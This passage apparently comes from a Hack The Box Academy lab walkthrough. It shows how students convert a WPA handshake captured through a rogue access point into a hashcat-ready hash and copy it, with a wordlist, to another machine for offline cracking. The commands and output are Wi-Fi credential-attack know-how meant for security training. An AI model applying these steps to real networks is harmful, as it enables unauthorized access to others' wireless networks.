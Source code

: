 After a few moments, students will see the client connect to the rogue AP, capturing the handshake and saving it to the `handshake.hccapx` file.

Knowing that the handshake can be bruteforced offline, students need to first convert the `handshake.hccapx` file into the `.cap` format. Then, students need to extract the hash using `hcxpcapngtool`.

Code: shell

```shell
hcxhash2cap --hccapx=handshake.hccapx -c handshake.pcap
hcxpcapngtool handshake.pcap -o hash.22000
```

```
wifi@HTB-Corp:~$ hcxhash2cap --hccapx=handshake.hccapx -c handshake.pcap

EAPOLs written to capfile(s): 4 (0 skipped)

wifi@HTB-Corp:~$ hcxpcapngtool handshake.pcap -o hash.22000

hcxpcapngtool 6.2.5 reading from handshake.pcap...

<SNIP>

session summary
---------------
processed cap files...................: 1
```

Students will find that the target VM produces an error when using Hashcat. Therefore, the `/opt.wordlist.txt` file, along with the hash, must be transferred to the Pwnbox.

Students need to enable `ssh` on the target VM.

Code: shell

```shell
sudo service ssh start
```

```
wifi@HTB-Corp:~$ sudo service ssh start
```

Then, from the Pwnbox, students need to use SCP to transfer over the wordlist and the hash.

Code: shell

```shell
scp wifi@STMIP:/opt/wordlist.txt .
scp wifi@STMIP:/home/wifi/hash.22000 .
```

```
┌─[us-academy-1]─[10.10.15.251]─[htb-ac-594497@htb-vtr17q4cjp]─[~]
└──╼ [★]$ scp wifi@10.129.232.18:/opt/wordlist.txt .

The authenticity of host '10.129.232.18 (10.129.232.18)' can't be established.
ED25519 key fingerprint is SHA256:LLZKY0Q+wbEzxANAqBjKvVp3/t+8HSON/l4JpDxmHgo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.232.18' (ED25519) to the list of known hosts.
wifi@10.129.232.18's password: 
wordlist.txt                                  100%  133MB   5.1MB/s   00:26    

┌─[us-academy-1]─[10.10.15.251]─[htb-ac-594497@htb-vtr17q4cjp]─[~]
└──╼ [★]$ scp wifi@10.129.232.18:/home/wifi/hash.22000 .

wifi@10.129.232.18's password: 
hash.22000                                    100%  414     6.8KB/s   00:00  
```